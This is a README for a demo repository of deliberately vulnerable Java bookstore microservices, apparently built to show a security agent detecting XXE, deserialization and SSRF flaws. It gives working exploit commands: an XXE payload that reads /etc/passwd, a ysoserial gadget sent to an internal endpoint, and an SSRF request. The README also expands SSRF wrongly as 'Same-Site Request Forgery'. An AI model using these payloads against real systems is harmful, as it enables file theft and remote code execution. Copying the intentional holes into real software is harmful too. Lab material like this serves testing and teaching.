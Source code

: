 # java-sample-apps
This repo holds a few Java apps showing the agent's ability to discover the most common vulnerabilities in microservices.

There are 3 microservice apps that implement a "book store".

## The Microservices

### bookstore-frontend

The bookstore-frontend app is a jax-rs app serving as a front end for the book store, exposing these
endpoints for book management:
 - GET /health
 - POST /add (this endpoint has an XXE vulnerability)
 - POST /delete
 - GET /list
 - GET /debug

### bookstore-data-manager

The bookstore-data-manager app is a SpringBoot app which holds the book data, offering a few services:
 - GET /ping
 - POST /add
 - POST /update (this "internal only" endpoint has a deserialization vulnerability)
 - POST /delete
 - GET /list
 
### bookstore-debug

The bookstore-debug app is a Dropwizard app that offers info to the devs:
 - GET /application/ping
 - GET /application/info?env=qa (this endpoint has an SSRF vulnerability)

## Usage

The first step is to start all 3 of the services, which will run on ports 8000, 8001 and 8002, respectively.

Each service has a Dockerfile to make running 1 step. Consult each service's `README.md` to see the commands.

### Using the services

You're _supposed_ to do everything through the frontend service.

Get a health check on the entire bookstore service mesh:
```
$ curl http://localhost:8000/health
```

List all the books:
```
$ curl http://localhost:8000/list
```

Add a book:
```
$ curl -H "Content-Type: application/xml" http://localhost:8000/add -d '<book><title>The Giving Tree</title><pages>30</pages></book>'
```

Alternatively, you can add a book through the backend service directly, where it expects JSON:
```
$ curl -H "Content-Type: application/json" http://localhost:8001/add -d '{"pages":"30", "title":"The Giving Tree"}'
```

Get debug info on the service:
```
$ curl http://localhost:8000/debug
```

## Detecting the vulnerabilities
To add the Java Agent to all the services above:

## Exploiting the Vulnerabilities

### XML External Entity (XXE)
The XXE vulnerability can be exploited directly in the bookstore-frontend by adding a new malicious
book:
```
$ curl -H "Content-Type: application/xml" http://localhost:8000/add -d '<?xml version="1.0"?><!DOCTYPE book [<!ENTITY xxe SYSTEM "/etc/passwd">]><book><title>foo &xxe;</title><pages>21</pages></book>'
```

Now the contents of `/etc/passwd` has leaked into the the new book title, which you can see by
checking the book titles:
```
$ curl http://localhost:8000/list
```

### Deserialization
The `bookstore-data-manager` offers an "update a book" service that is not supposed to be used from
the outside, which is why it's not available through the `bookstore-frontend`.

This service is available at `/update`, and it accepts a binary, serialized Java object with `Book`
type.

To exploit this, we must first make an exploit that creates a file in `/tmp` as a proof-of-concept:
```
$ git clone https://github.com/frohoff/ysoserial
$ cd ysoserial
$ docker build -t ysoserial .
$ docker run --rm -t ysoserial CommonsCollections5 'touch /tmp/hacked' > commonscollections5.ser
```

Now you can send the exploit generated in the `commonscollections5.ser` file:
```
$ curl -X POST -H "Content-Type: application/octet-stream" --data-binary @commonscollections5.ser http://localhost:8001/update
```

To prove that we created this `/tmp/hacked` file, we must shell into the running container. 

If you started with docker-compose, the container ID is something like java-microservice-sample-apps_bookstore-datamanager_1.

If you ran the containers manually, you can start with the ID:
```
$ docker ps
CONTAINER ID        IMAGE                    COMMAND                 CREATED              STATUS              PORTS                              NAMES
*[RUNNING_CONTAINER_ID]*        bookstore-data-manager   "mvn spring-boot:run"
```

Now, using that container ID, we shell into the container and confirm the exploit created the `/tmp/hacked` file:
```
$ docker exec -it java-microservice-sample-apps_bookstore-datamanager_1 ls -al /tmp
...
*/tmp/hacked*
```

### Same-Site Request Forgery (SSRF)
The `bookstore-frontend` exposes a "info" service, only intended for developers. It is intended to be used to rertieve data about diffferent developer environments, but it can be used to force the app to retrieve data from other URLs:
```
$ curl http://localhost:8002/application/info?env=google.com/?
```

Obviously in this case we ask the server to retrieve Google content, but it could as easily be pointed towards URLs typically only accessed within your perimeter.
